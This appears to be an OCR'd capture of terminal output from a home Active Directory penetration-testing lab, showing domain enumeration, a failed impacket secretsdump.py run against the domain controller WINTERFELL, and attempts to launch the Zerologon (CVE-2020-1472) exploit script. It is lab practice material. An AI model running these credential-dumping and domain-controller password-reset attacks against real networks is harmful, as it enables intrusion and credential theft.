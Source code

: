   type: builtin                                                                                                                                                   
'578':                                                                                                                                                            
  groupname: Hyper-V Administrators                                                                                                                               
  type: builtin                                                                                                                                                   
'579':                                                                                                                                                            
  groupname: Access Control Assistance Operators                                                                                                                  
  type: builtin                                                                                                                                                   
'580':                                                                                                                                                            
  groupname: Remote Management Users                                                                                                                              
  type: builtin                                                                                                                                                   
'582':                                                                                                                                                            
  groupname: Storage Replica Administrators                                                                                                                       
  type: builtin                                                                                                                                                 

 \=========================================  
|    Services via RPC on 192.168.20.11    |  
 \=========================================  
\[-\] Could not get RPC services via 'net rpc service list': STATUS\_ACCESS\_DENIED

 \=======================================  
|    Shares via RPC on 192.168.20.11    |  
 \=======================================

^C  
\[\!\] Received SIGINT, aborting enumeration

Completed after 984.33 seconds  
                                                                                                                                                                  
┌──(impacket)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ secretsdump.py WINTERFELL$@192.168.20.11  
/home/kali/.venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html. The pkg\_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools\<81.  
  import pkg\_resources  
Impacket v0.13.0.dev0+20250813.95021.3e63dae \- Copyright Fortra, LLC and its affiliated companies 

\[-\] RemoteOperations failed: \[Errno Connection error (WINTERFELL192.168.20.11:445)\] \[Errno \-2\] Name or service not known  
\[\*\] Cleaning up... 

[https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

┌──(kali㉿kali)-\[\~/goAD-lab/adPEAS/adPEAS/CVE-2020-1472\]  
└─$ python3 cve-2020-1472-exploit.py \--target-ip 192.168.20.11 \--dc-name WINTERFELL

Usage: zerologon\_tester.py \<dc-name\> \<dc-ip\>

Tests whether a domain controller is vulnerable to the Zerologon attack. Resets the DC account password to an empty string when vulnerable.  
Note: dc-name should be the (NetBIOS) computer name of the domain controller.  
                                                                                                                                                                  
┌──(kali㉿kali)-\[\~/goAD-lab/adPEAS/adPEAS/CVE-2020-1472\]  
└─$ python3 cve-2020-1472-exploit.py \-h                                              
Usage: zerologon\_tester.py \<dc-name\> \<dc-ip\>
